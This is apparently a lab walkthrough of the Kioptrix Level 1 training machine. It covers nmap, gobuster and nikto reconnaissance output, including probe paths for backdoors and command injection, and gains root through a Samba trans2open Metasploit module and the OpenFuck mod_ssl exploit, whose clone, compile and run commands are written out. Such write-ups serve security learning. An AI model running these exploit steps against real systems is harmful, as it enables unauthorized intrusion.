 ### Keoptrix machine by TCM
---

IP = {target_IP}

nmap scan \
    `nmap -sC -sV -p- {target_IP} -oN nmap-initial`
```
    22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
|*sshv1: Server supports SSHv1
| ssh-hostkey:
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|*  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|*http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp   open  rpcbind     2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1          32768/tcp   status
|*  100024  1          32768/udp   status
139/tcp   open  netbios-ssn Samba smbd (workgroup: hMYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|*http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|*    SSL2_DES_192_EDE3_CBC_WITH_MD5
|_ssl-date: 2024-04-07T04:10:25+00:00; +5h00m04s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after:  2010-09-26T09:32:06
|_http-title: 400 Bad Request
32768/tcp open  status      1 (RPC #100024)

Host script results:
|_clock-skew: 5h00m03s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```
---

Gobuster for the directories discovery\
 `gobuster dir --url {target_IP} -w ~/scripts/SecLists/Discovery/Web-Content/common.txt` 
```
/.htaccess            (Status: 403) [Size: 273]
/.htpasswd            (Status: 403) [Size: 273]
/.hta                 (Status: 403) [Size: 268]
/cgi-bin/             (Status: 403) [Size: 272]
/index.html           (Status: 200) [Size: 2890]
/manual               (Status: 301) [Size: 294] [--> http://127.0.0.1/manual/]
/mrtg                 (Status: 301) [Size: 292] [--> http://127.0.0.1/mrtg/]
/usage                (Status: 301) [Size: 293] [--> http://127.0.0.1/usage/]
/~operator            (Status: 403) [Size: 273]
/~root                (Status: 403) [Size: 269]
```

On the main page of the url we found `/etc/httpd/conf/httpd.conf`after visite this http://{target_IP}/etc/httpd/conf/httpd.conf we get informnation disclosure

<img src="../img/Keoptrix.png">

---

We run nikto scan:
`nikto -url {target_IP}  `
```
Nikto v2.5.0
---

- Target IP: {target_IP}
- Target Hostname:{target_IP}
- Target Port: 80
- Start Time: 2023-04-06 19:28:01 (GMT-4)

---

- Server: Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
- /: Server may leak inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep 5 23:12:46 2001. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
- /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
- /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
- /: Apache is vulnerable to XSS via the Expect header. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3918
- Apache/1.3.20 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
- mod_ssl/2.8.4 appears to be outdated (current is at least 2.9.6) (may depend on server version).
- OpenSSL/0.9.6b appears to be outdated (current is at least 3.0.7). OpenSSL 1.1.1s is current for the 1.x branch and will be supported until Nov 11 2023.
- OPTIONS: Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE .
- /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
- Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution.
- Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system.
- Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi.
- mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell.
- ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
- /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2001-0835
- /manual/: Directory indexing found.
- /manual/: Web server manual found.
- /icons/: Directory indexing found.
- /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
- /test.php: This might be interesting.
- /wp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
- /wordpress/wp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
- /wp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
- /wordpress/wp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
- /wp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
- /wordpress/wp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
- /assets/mobirise/css/meta.php?filesrc=: A PHP backdoor file manager was found.
- /login.cgi?cli=aa%20aa%27cat%20/etc/hosts: Some D-Link router remote command execution.
- /shell?cat+/etc/hosts: A backdoor was identified.
- /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
- 8908 requests: 0 error(s) and 30 item(s) reported on remote host

---

```
We detect SMB version via msfconsole:\
Unix (Samba 2.2.1a)\
try to connect via smbclient:\
`smbclient -L \\\\{target_IP}\\  `
<img src="../img/Keoptrix_smb.png">

As we know the  smb version we can try to exploit it via 

**[Samba trans2open Overflow (Linux x86)](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/)**

<img src="../img/Keoptrix_root.png">

# We got root access! Congrats!
---

We can use the exploit of **[Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)](https://github.com/heltonWernik/OpenLuck)**

1. Download OpenFuck.c

```
git clone https://github.com/heltonWernik/OpenFuck.git
```

1. Install ssl-dev library

```
apt-get install libssl-dev
```

1. It's Compile Time

```
gcc -o OpenFuck OpenFuck.c -lcrypto
```

1. Running the Exploit

```
./OpenFuck
```

1. See which service you witch to exploit. For example if you need to
Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6a
option
./OpenFuck 0x6a [Target Ip] [port] -c 40

We execute the following command:

```
./OpenFuck 0x6b {target_IP} -c 40
```

<img src="../img/Keoptrix_root2.png">


# We got root access! Congrats!

